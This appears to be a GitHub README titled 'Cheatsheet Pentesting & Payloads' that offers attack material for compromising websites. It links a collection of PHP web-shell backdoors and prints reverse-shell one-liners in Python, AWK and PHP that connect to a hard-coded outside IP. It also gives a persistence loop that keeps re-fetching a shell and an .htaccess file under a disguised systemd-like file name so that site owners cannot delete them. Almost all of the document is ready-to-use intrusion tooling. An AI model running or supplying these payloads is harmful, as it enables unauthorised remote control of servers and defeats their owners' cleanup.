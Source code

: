 # Cheatsheet Pentesting & Payloads By [@CallMeRep](https://t.me//CallMeRep)

## Summary
* [BackConnect Bypass](#trick-backconnect-bypass)
* [Tools](#tools)
* [ Default Index CMS ]
   * [Index Joomla](https://github.com/t101804/repshare/blob/main/index_joomla.php)
* [ Shell Backdoor Bypass/Non ]
    * [Alfa Shells](https://github.com/t101804/repshare/blob/main/alfa.php)
    * [Evil Twin Shells](https://github.com/t101804/repshare/blob/main/eviltwin.php)
    * [Gecko Shells](https://github.com/t101804/repshare/blob/main/gk.php)
    * [Gecko JPG Shells](https://github.com/t101804/repshare/blob/main/gkjpg.jpg)
    * [Open Source Shells](https://github.com/t101804/repshare/blob/main/ac.php)
    * [Commander RCE Shell Bypass](https://github.com/t101804/repshare/blob/main/commander.php) 
    ```
    commander.php?command=[executeurcommand] then the response you can access in /output_command.txt
    ```
    * [SSI Shell](https://github.com/t101804/repshare/blob/main/ssial.shtml) 
    * [indoXploit Shell](https://github.com/t101804/repshare/blob/main/idx.php) 
    * [marijuana shell](https://github.com/t101804/repshare/blob/main/m4rijuana.php) 
    * [r57 shells](https://github.com/t101804/repshare/blob/main/r.php)
## Trick BackConnect Bypass
## Python 
```
export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## PHP EXEC & PHP SHELL EXEC
[EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'
```
[SHELL_EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'
```

# Trick Defend Shells
### Anti Delete Command without Root Privilages : 
```
curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; while true; do echo $(TZ=Asia/Jakarta date); if [ ! -f ac.php ] || ([ -f ac.php ] && ! grep -q '@CallMeRep' ac.php); then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi; if [ -r .htaccess ] && [ -w .htaccess ] && ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; then curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess; fi; echo $(TZ=Asia/Jakarta date); sleep 2; done
```
#### Script for that if you want see detail script
```
wget https://raw.githubusercontent.com/t101804/repshare/main/priv8_anti_delet.sh
```
## Tools
- [reverse-shell-generator](https://www.revshells.com/)
- [mass-grab-config-joomla&wp-vhost-symlink](https://github.com/t101804/repshare/blob/main/mass_vghost_config_grab.py)
- [linux_privilage_check_that_i_use](https://github.com/sleventyeleven/linuxprivchecker)

Credit by revshells.com and @CallMeRep
